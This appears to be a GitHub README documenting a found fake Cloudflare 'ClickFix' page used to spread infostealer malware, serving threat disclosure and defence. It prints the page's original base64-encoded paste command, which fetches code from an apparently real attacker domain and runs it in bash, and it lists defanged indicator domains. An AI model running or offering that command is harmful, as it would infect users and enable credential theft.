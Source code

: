 # CloudFlare-ClickFix

This repo contains a found fake malicious cloudflare page used for distributing infostealer malware. Please don't use for malicious purposes. 

<img width="1982" height="1538" alt="image" src="https://github.com/user-attachments/assets/9af13e17-e5c3-4f47-bd9b-663039768b28" />

Orginal contents of copy commands was:

```bash
echo "Y3VybCAtcyBodHRwczovL2dhbW1hLnBsYWluZmVuYXNzb2NpYXRlcy5jb20vc3RyaXgvaW5kZXgucGhwIHwgbm9odXAgYmFzaCAm" | base64 -d | bas[h]
```

IoCs:

- javascriptbasics[.]com
- javascriptbasics[.]com
- jqueryapihelpers[.]com
- meshsorterio[.]com
- gamma.meshsorterio[.]com <- curl loader domain
- gamma.plainfenassociates[.]com <- curl loader domain
- plainfenassociates[.]com
- javascripterhub[.]com
- typescripttools[.]com
- modestknollpartners[.]com
- proxyreflecttools[.]com

